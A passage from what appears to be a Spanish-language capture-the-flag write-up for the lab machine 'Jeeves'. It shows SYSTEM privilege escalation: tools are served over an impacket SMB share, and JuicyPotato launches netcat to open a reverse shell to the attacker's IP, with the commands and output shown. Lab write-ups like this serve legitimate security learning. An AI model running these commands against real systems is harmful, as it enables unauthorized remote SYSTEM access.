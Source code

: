 ![](body/8973c5d2534f988d7960ecb7b16d64d05caa04ee.png)

Levantamos la caperta compartida con **impacket-smbserver** donde tengamos los recursos descargados:

```bash
# impacket-smbserver smbFolder $(pwd)

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Ponemos **netcat** a la escucha en el puerto 1337 y lanzamos desde la máquina **Jeeves**:

```bash
PS C:\Users\Kohsuke> \\10.10.14.34\smbFolder\JuicyPotato.exe -l 9090 -p cmd.exe -a "/c \\10.10.14.34\smbFolder\nc64.exe -e cmd.exe 10.10.14.34 1337" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 9090
......
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

(El puerto 9090 es random, es el puerto COM que utilizará JuicyPotato, puedes elegir el que quieras)

Si miramos la sesión de **netcat**, habremos obtenido shell como usuario **SYSTEM**:

![](body/473c3c0665523824907e4cc4a0c5bea3c903da59.png)
